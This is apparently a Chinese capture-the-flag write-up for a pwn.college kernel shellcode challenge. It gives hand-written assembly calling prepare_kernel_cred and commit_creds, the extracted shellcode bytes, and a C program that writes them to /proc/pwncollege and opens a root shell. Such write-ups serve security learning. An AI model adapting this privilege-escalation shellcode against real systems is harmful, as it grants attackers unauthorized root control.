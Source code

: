 相当于是 kernel shellcode，要求实现之前的 `win` 函数。

直接手写汇编：

```asm
; gcc -c exp.s -o exp.o
; ld -e _start -z noexecstack exp.o -o exp

    .intel_syntax noprefix
    .text
    .globl  _start
    .type   _start, @function

_start:
    push 0xffffffff81089660 ; prepare_kernel_cred
    pop rbx
    xor rdi, rdi
    call rbx
    push rax
    pop rdi
    push 0xffffffff81089310 ; commit_creds
    pop rbx
    call rbx
```

编译得到 exp 可执行文件，然后剥离 shellcode。

```
$ objcopy -O binary --only-section=.text exp exp.bin
$ xxd -i exp.bin
unsigned char exp_bin[] = {
0x68, 0x60, 0x96, 0x08, 0x81, 0x5b, 0x48, 0x31, 0xff, 0xff, 0xd3, 0x50,
0x5f, 0x68, 0x10, 0x93, 0x08, 0x81, 0x5b, 0xff, 0xd3
};
unsigned int exp_bin_len = 21;
```

然后编写 exp.c 如下：

```c
// musl-gcc exp.c -o exp2 -static
# include <stdio.h>
# include <fcntl.h>
# include <stdlib.h>
# include <unistd.h>
// prepare: ffffffff81089660
// commit: ffffffff81089310

unsigned char exp_bin[] = {
0x68, 0x60, 0x96, 0x08, 0x81, 0x5b, 0x48, 0x31, 0xff, 0xff, 0xd3, 0x50,
0x5f, 0x68, 0x10, 0x93, 0x08, 0x81, 0x5b, 0xff, 0xd3
};
unsigned int exp_bin_len = 21;
int main() {
    char flag[100];
    int fd = open("/proc/pwncollege", 2);
    printf("%d\n", fd);
    int res = write(fd, exp_bin, exp_bin_len);
    printf("%d\n", res);
    system("/bin/sh");
    return 0;
}
```
